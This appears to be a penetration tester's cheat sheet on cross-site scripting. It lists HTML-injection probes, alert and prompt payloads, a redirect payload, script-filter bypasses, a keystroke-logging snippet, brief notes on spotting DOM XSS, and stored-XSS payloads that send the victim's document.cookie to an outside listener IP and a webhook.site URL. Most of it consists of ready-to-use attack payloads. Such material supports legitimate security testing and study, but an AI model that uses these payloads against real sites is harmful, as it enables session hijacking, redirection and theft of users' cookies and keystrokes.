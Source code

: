 **Test html injection first, usually this is a good indicator (JS = you might need to bypass filter)**
```Python
<h1>test</h1>
```
**Payloads**
```html
<script>alert()</script>
```
```html
<script>print()</script>
```
```html
<script>prompt("string")</script>
```
```html
<script>alert(window.origin)</script>
```
```html
 <plaintext>
```
!!! alert "info"
	Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of window.origin in the alert box, instead of a static value like 1. In this case, the alert box would reveal the URL it is being executed on

**You need to trigger XSS if not executed on page load**
```html
<img src=x onerror="prompt(1)">
```
**Redirect**
```html
<img src=x onerror="window.location.href='<https://example.com>'">
```
**script tag filter**
```html
<img src=x onerror=print()>
```
```html
<scri<script>pt>prompt(1)<scri</scr</script>ipt>
```
**Keylogger**
```html
function logKey(event){console.log(event.key)}
```
```html
 document.addEventListener('keydown', logKey)
```

## DOM XSS
---
### Identify
You have XSS execution, but no http requests are being made. We see that the input parameter in the URL is using a hashtag # for the item we added, which means that this is a client-side parameter that is completely processed on the browser. This indicates that the input is being processed at the client-side through JavaScript and never reaches the back-end. This is DOM XSS
if we look at the page source by hitting `CTRL+U`, we will notice that our `test` string is nowhere to be found. This is because the JavaScript code is updating the page when we click the `Add` button
We can still view the rendered page source with the Web Inspector tool by clicking `CTRL+SHIFT+C`:

![](../assets/Pasted%20image%2020250605075243.png)

## Stored
**Steal admin cookie (classic)**
```html
<script>fetch("<http://192.168.187.130:9999/>" + document.cookie)</script>
```
```html
<script>var i = new Image; i.src="https://webhook.site/9b3374bf-b997-4021-a302-de75a26fd841/?"+document.cookie;</script>
```
